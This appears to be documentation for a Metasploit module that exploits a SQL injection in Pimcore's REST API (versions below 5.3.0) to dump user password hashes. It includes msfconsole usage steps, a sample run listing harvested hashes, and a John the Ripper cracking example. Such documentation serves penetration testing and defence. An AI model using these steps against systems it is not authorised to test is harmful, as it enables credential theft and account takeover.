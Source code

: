 ## Description

  This module exploits a SQL injection vulnerability in Pimcore's REST web service for versions below 5.3.0. By using a UNION query on the `object inquire` service, this module can steal the usernames and password hashes of all users of Pimcore.

  Pimcore begins to create password hashes by concatenating a user's username, the name of the application, and the user's password in the format `USERNAME:pimcore:PASSWORD`.
  The resulting string is then used to generate an MD5 hash, and then that MD5 hash is used to create the final hash, which is generated using PHP's built-in `password_hash` function.

  The following is an example of cracking a retrieved hash using John the Ripper on OS X (`md5{,sum}` invocation may vary):

```
wvu@kharak:~$ md5 -qs 'admin:pimcore:TrustNo1!!' | john --stdin <(echo 'admin:$2y$10$k6odZgiw2RnC1gbuD2/vRO21SxVuAeUiYYWwRtmYuNHYvZCzEX2Fy')
Created directory: /Users/wvu/.john
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
c28e017eec634579fd9309d08171c115 (admin)
1g 0:00:00:00  14.28g/s 14.28p/s 14.28c/s 14.28C/s c28e017eec634579fd9309d08171c115
Use the "--show" option to display all of the cracked passwords reliably
Session completed
wvu@kharak:~$
```

## Vulnerable Application

  Installing composer and running `php composer.phar create-project pimcore/pimcore=5.2.3 ./myproject --no-dev` will install Pimcore and most of its dependencies.
  The installation process will give notifications on missing PHP extensions that are required. Additionally, a web server and database must be set up.

  Source for Pimcore v5.2.3 can also be found [here](https://www.exploit-db.com/apps/7c759b5b7f2896a7d5461582e149bcaa-pimcore-5.2.3.tar.gz)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/gather/pimcore_creds_sqli`
  4. Do: `set RHOSTS [IP]`
  5. Do: `set TARGETURI [URI]`
  6. Do: `set APIKEY [KEY]`
  7. Do: `run`
  8. You should get a list of Pimcore user credentials

## Options

  **APIKEY**

  Valid API key for accessing Pimcore's REST API in order to perform the injection.

## Scenarios

### Tested on Ubuntu 18.04.1 Running Pimcore v5.2.3

```
msf > use auxiliary/gather/pimcore_creds_sqli
msf auxiliary(gather/pimcore_creds_sqli) > set rhosts 192.168.37.246
rhosts => 192.168.37.246
msf auxiliary(gather/pimcore_creds_sqli) > set apikey 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
apikey => 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
msf auxiliary(gather/pimcore_creds_sqli) > run

[+] Credentials obtained:
[+] admin : $2y$10$sBaD3EOAm/i1F3Mm/fwseeq3nyoacdlUt4NkVLZUgJ4FTReJSKIbe
[+] secondUser : $2y$10$DYaFjrYnajTmVhhXSmsh8O5rLrQuPt8Q9Dto3vaQ4747K5kSvWEPy
[+] blah : $2y$10$sJWr.puqXnF5T3DI3L1oqu3aIJRjUtHs9.2pgHEkevEdGrGvO1cBC
[*] Auxiliary module execution completed
```
